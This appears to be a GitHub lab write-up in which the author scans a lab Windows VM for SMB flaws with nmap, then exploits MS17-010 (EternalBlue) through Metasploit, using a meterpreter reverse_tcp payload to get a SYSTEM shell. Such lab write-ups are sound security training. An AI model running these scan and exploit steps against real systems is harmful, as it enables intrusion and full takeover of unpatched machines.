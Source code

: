 # Eternal Blue

## Objective: 
To gain remote access, scan, and exploit SMB vulnerabilities with Nmap and Metasploit.

## Walkthrough:
- I initiated the assignment by executing the **ifconfig** command on my Kali VM, identifying the machine's IP address as 10.0.2.6.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB1.jpg" alt="">
</p>

- I then proceeded with an nmap scan targeting the IP address to locate the metasploitable Windows machine. The results showed the machine's IP address as 10.0.2.8, and the open ports 139 and 445 indicated the running SMB service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB2.jpg" alt="">
</p>

- To leverage nse scripts, I ran **nmap -Pn -p139,445 --script=smbvuln-* 10.0.2.8**. The output highlighted the vulnerability **smb-vuln-ms17-010**, susceptible to remote code execution and classified as a high-risk factor.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB3.jpg" alt="">
</p>

- To proceed, I launched the Metasploit framework using the **msfconsole** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB4.jpg" alt="">
</p>

- Within Metasploit, I searched for the **eternalblue** exploit using **search eternalblue**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB5.jpg" alt="">
</p>

- I selected the **MS17-010 EternalBlue SMB Remote Windows** module with **use exploit/windows/smb/ms17_010_eternalblue**. By default, the PAYLOAD was set to **windows/x64/meterpreter/reverse_tcp**. Necessary adjustments were made to RHOSTS (10.0.2.8, Target IP), LHOST (10.0.2.6, Kali IP), and LPORT (4444, designated listening port).

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB6.jpg" alt="">
</p>

- Initiating the attack, I executed the **exploit** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB7.jpg" alt="">
</p>

- To confirm successful entry into the metasploitable VM, I ran **sysinfo**. Verification of the user-level access was achieved with the **getuid** command, revealing the access level as **SYSTEM** - the highest privilege on the machine.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB8.jpg" alt="">
</p>

- Lastly, to imprint my identity on the remote machine's terminal, I invoked the **shell** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB9.jpg" alt="">
</p>
